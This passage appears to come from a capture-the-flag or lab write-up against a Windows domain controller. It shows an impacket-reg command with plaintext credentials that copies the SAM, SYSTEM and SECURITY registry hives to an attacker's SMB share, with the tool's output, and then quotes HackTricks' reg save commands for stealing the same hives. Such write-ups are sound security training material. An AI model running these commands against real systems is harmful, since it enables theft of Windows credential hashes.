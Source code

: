 ![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`impacket-reg 'SOUPEDECODE.LOCAL/zximena448:internet@192.168.56.103' backup -o //192.168.56.101/smbshare`:
```
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
[*] Saved HKLM\SAM to //192.168.56.101/smbshare\SAM.save ←
[*] Saved HKLM\SYSTEM to //192.168.56.101/smbshare\SYSTEM.save ←
[*] Saved HKLM\SECURITY to //192.168.56.101/smbshare\SECURITY.save ←
```

`ls -alps ./smbshare`:
```
total 11196
    4 drwxr-xr-x  2 root root     4096 Sep  4 05:38 ./
    4 drwx------ 25 kali kali     4096 Sep  4 05:27 ../
   28 -rwxr-xr-x  1 root root    28672 Sep  4 05:38 SAM.save ←
   32 -rwxr-xr-x  1 root root    32768 Sep  4 05:38 SECURITY.save ←
11128 -rwxr-xr-x  1 root root 11395072 Sep  4 05:38 SYSTEM.save ←
```

<div>
	<img src="./assets/logo_hacktricks.png" alt="HackTricks Logo" width="16" height="auto">
	<span style="color: red; font-size: 110%;"><strong>HackTricks</strong></span>
</div>

[Stealing Windows Credentials](https://book.hacktricks.xyz/windows-hardening/stealing-credentials)

[**#From Registry**]

The easiest way to steal those files is to get a copy from the registry:
```
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```
